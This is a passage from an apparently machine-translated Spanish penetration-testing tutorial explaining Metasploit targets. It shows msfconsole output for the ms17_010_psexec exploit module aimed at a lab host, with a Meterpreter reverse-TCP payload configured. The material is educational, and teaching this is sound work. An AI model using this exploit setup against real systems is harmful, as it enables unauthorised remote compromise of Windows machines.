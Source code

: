 # Objetivos

`Targets`son identificadores de sistema operativo únicos tomados de las versiones de aquellos sistemas operativos específicos que adaptan el módulo de explotación seleccionado para ejecutarse en esa versión particular del sistema operativo. El`show targets`El comando emitido dentro de una vista del módulo de Exploit mostrará todos los objetivos vulnerables disponibles para ese exploit específico, al tiempo que emite el mismo comando en el menú raíz, fuera de cualquier módulo de exploit seleccionado, nos hará saber que primero debemos seleccionar un módulo de exploit.

### **MSF - Mostrar objetivos**

Objetivos

```
msf6 > show targets

[-] No exploit module selected.

```

Al mirar nuestro módulo de exploit anterior, esto sería lo que vemos:

Objetivos

```
msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```